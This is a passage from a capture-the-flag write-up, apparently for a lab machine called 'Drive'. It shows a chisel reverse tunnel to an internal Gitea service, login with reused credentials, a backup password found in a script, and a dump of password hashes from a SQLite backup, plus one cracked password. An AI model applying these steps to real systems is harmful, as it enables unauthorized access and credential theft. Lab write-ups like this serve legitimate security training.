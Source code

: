 ## User Flag

We recall from our Nmap scan that port 3000 is open internally. We can port forward that to our machine. (Proxychains + SSH with -D switch would probably be a lot faster, but I'm too used (and addicted) to Chisel lol)

```
$ chisel server --reverse --port 9002
2023/10/28 15:57:04 server: Reverse tunnelling enabled
2023/10/28 15:57:04 server: Fingerprint A2s0vz+9EXb9YMfKduTSD4srWRXT5mikaXJjd6+7Nq0=
2023/10/28 15:57:04 server: Listening on http://0.0.0.0:9002
```

```
martin@drive:~$ ./chisel client 10.10.14.20:9002 R:3000:localhost:3000
2023/10/28 07:57:37 client: Connecting to ws://10.10.14.20:9002
2023/10/28 07:57:38 client: Connected (Latency 116.07783ms)
```

We can now access the internal service. It's running Gitea. We can log in with username 'martin@drive.htb' and the password we obtained before. Once we are logged in we can find the source code of the website. The one interesting thing I can find is a file called db_backup.sh:

![db_backup](assets/db_backup.png)

There's our password! We can unzip all of the databases. We can try the oldest (September) database first. Cracking Tom's password gives "john boy", but that doesn't get us in as ssh:

```
$ sqlite3 1_sep_db
SQLite version 3.39.5 2022-10-14 20:58:05
Enter ".help" for usage hints.
sqlite> select * from accounts_customuser;
21|sha1$W5IGzMqPgAUGMKXwKRmi08$030814d90a6a50ac29bb48e0954a89132302483a|2022-12-26 05:48:27.497873|0|jamesMason|||jamesMason@drive.htb|0|1|2022-12-23 12:33:04
22|sha1$E9cadw34Gx4E59Qt18NLXR$60919b923803c52057c0cdd1d58f0409e7212e9f|2022-12-24 12:55:10|0|martinCruz|||martin@drive.htb|0|1|2022-12-23 12:35:02
23|sha1$DhWa3Bym5bj9Ig73wYZRls$3ecc0c96b090dea7dfa0684b9a1521349170fc93|2022-12-26 06:03:57.371771|0|tomHands|||tom@drive.htb|0|1|2022-12-23 12:37:45
24|sha1$ALgmoJHkrqcEDinLzpILpD$4b835a084a7c65f5fe966d522c0efcdd1d6f879f|2022-12-24 16:51:53|0|crisDisel|||cris@drive.htb|0|1|2022-12-23 12:39:15
30|sha1$jzpj8fqBgy66yby2vX5XPa$52f17d6118fce501e3b60de360d4c311337836a3|2022-12-26 05:43:40.388717|1|admin|||admin@drive.htb|1|1|2022-12-26 05:30:58.003372
```